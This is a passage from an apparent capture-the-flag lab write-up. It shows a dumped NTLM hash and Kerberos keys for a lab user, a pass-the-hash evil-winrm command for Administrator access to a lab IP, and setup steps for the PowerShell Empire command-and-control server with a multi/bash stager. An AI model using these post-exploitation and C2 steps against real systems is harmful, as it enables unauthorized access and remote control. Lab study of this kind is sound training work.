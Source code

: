 ```
RID  : 000003ea (1002)
User : 0xskar
  Hash NTLM: de26cce0356891a4a020e7c4957afc72

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 3d018e7767a4e0dfb4e5fa75c241fd5b

* Primary:Kerberos-Newer-Keys *
    Default Salt : GIT-SERV0xskar
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : d9e0a40978c799a5ddc6280d7e4a7a242473043aa67086b400b903a547161d83
      aes128_hmac       (4096) : a012930f4bc07f6b4361ac1f507c2194
      des_cbc_md5       (4096) : e380f7d3235d4f5d

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : GIT-SERV0xskar
    Credentials
      des_cbc_md5       : e380f7d3235d4f5d
```

- we are now instructed to use pass the hash as admin now that we have the admin hash.
- `evil-winrm -i 10.200.101.150 -u Administrator -H "37db630168e5f82aafa8461e05c6bbd1"`


* * * 

## Command and Control - Empire: Installation 

1. `sudo apt install powershell-empire starkiller`
2. start up server `sudo powershell-empire server` generally this is hosted on a different machine for multiple connections but in this case we just run it on our kali local
3. start client `powershell-empire client` this will connect to the server on the local, if on another machine we would have to specify the machine.
4. on the client start `starkiller` and credentials `empireadmin:password123`

* * * 

## Command and Control - Empire: Overview 

1. `usestager multi/bash`
2. `set Listners CLIHTTP` set the listener to the listenr we created in the last task
3. `execute`


* * * 

## Empire: Agents
